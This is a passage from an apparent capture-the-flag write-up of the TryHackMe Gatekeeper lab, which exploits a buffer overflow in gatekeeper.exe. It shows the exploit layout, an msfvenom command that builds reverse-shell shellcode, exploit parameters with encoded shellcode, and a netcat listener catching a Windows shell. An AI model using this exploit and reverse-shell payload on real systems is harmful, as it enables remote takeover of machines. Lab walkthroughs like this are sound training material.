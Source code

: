 Just to confirm what we have:

```text
offset = number of bytes we send to fill buffer
retn = memory address of ESP
padding = NOP Sled added to ensure we hit our payload
payload = shellcode created by MSFVenom
```

Now we start a netcat session listening in another terminal on Kali, run our exploit, we should see we are connected to a reverse shell:

```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 1234                                                                 
listening on [any] 1234 ...
connect to [192.168.0.19] from (UNKNOWN) [192.168.0.11] 51219
Microsoft Windows [Version 10.0.17134.112]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator\Desktop>
```

## Exploiting Target

We've successfully exploited the gatekeeper.exe on our local machine. Now it's time to use our script against the one hosted on TryHackMe.

First create a new payload with MSFVenom, use our TUN0 IP which connects us to the TryHackMe network over VPN:

```text
root@kali:/home/kali/thm/gatekeeper# msfvenom -p windows/shell_reverse_tcp LHOST=10.8.165.116 LPORT=1234 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a"
```

Update our exploit script with the IP of the TryHackMe machine and this new payload:

```text
ip = "10.10.245.39"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = (
"\xda\xc7\xd9\x74\x24\xf4\xbb\xc3\x46\xfc\x15\x58\x29\xc9\xb1"
<SNIP>
"\x62\x1a\x47\xc6\xe0\xae\x38\x3d\xf8\xdb\x3d\x79\xbe\x30\x4c"
"\x12\x2b\x36\xe3\x13\x7e"
)
postfix = ""
```

Switch to our Kali netcat session waiting to see our reverse shell is connected:
